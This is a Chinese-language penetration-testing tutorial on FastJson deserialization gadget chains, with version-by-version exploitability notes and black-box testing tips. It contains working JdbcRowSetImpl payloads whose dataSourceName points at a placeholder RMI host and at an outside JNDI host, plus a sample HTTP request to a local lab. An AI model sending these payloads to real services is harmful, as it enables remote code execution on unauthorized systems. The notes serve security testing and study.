

# JAVA攻防-FastJson专题&各版本Gadget链&autoType开关&黑名单&依赖包&本地代码



```JAVA
#FastJson反序列化各版本利用链分析
参考文章：https://xz.aliyun.com/news/14309
参考文章：https://mp.weixin.qq.com/s/t8sjv0Zg8_KMjuW4t-bE-w
FastJson是阿里巴巴的的开源库，用于对JSON格式的数据进行解析和打包。其实简单的来说就是处理json格式的数据的。例如将json转换成一个类。或者是将一个类转换成一段json数据。Fastjson 是一个 Java 库，提供了Java 对象与 JSON 相互转换。
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>x.x.xx</version>
</dependency>

应用知识：
1、序列化方法：
JSON.toJSONString()，返回字符串；
JSON.toJSONBytes()，返回byte数组；
2、反序列化方法：
JSON.parseObject()，返回JsonObject；
JSON.parse()，返回Object；
JSON.parseArray(), 返回JSONArray；
将JSON对象转换为java对象：JSON.toJavaObject()；
将JSON对象写入write流：JSON.writeJSONString()；
3、常用：
JSON.toJSONString(),JSON.parse(),JSON.parseObject()

使用引出安全：
1、序列化固定类后：
parse方法在调用时会调用set方法
parseObject在调用时会调用set和get方法
2、反序列化指定类后：
parseObject在调用时会调用set方法

安全利用链：
JDK自带链-JdbcRowSetImpl：
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
String payload = "{" +
                "\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"rmi://xx.xx.xx.xx/xxxx\", " +
                "\"autoCommit\":true" +
                "}";
JSON.parse(payload);


版本24的Payload解析：
1、反序列化对象：com.sun.rowset.JdbcRowSetImpl
2、改动的成员变量：dataSourceName autoCommit
3、setdataSourceName->getdataSourceName
4、setautoCommit->connect->
InitialContext.lookup(getDataSourceName());

测试：1.2.24 1.2.47 1.2.62 1.2.80等版本差异
总结：
*1.2.47<=可利用JDK自带链实现RCE
*1.2.47-1.2.80中利用链为依赖包或本地代码
其中依赖包还需要开启autoType,本地代码无需（黑盒不适用）
*1.2.80后续版本目前无

黑盒测试思路点：
能不能测试核心：
1、符合java应用 有json数据传递 或者报错显示用到fastjson类
2、传递的数据不管加密或无密能识别出json格式 直接poc替换测试
POST /home/fastjson HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 112
Content-Type: application/json
Cookie: java-chains-token-key=admin_token; JSESSIONID=22BE2078F5D60DE4851FE00D9610CB51
Host: 127.0.0.1:8000
Origin: http://127.0.0.1:8000
Pragma: no-cache
Referer: http://127.0.0.1:8000/fastjson
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0
X-Requested-With: XMLHttpRequest
sec-ch-ua: "Chromium";v="134", "Not:A-Brand";v="24", "Microsoft Edge";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"


明文 加密（整体或部分） 编码 （加解密的分析 js逆向）
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://jndi.fuzz.red:5/ahld/test","autoCommit":true}


满足于fastjson漏洞测试（黑盒）

```

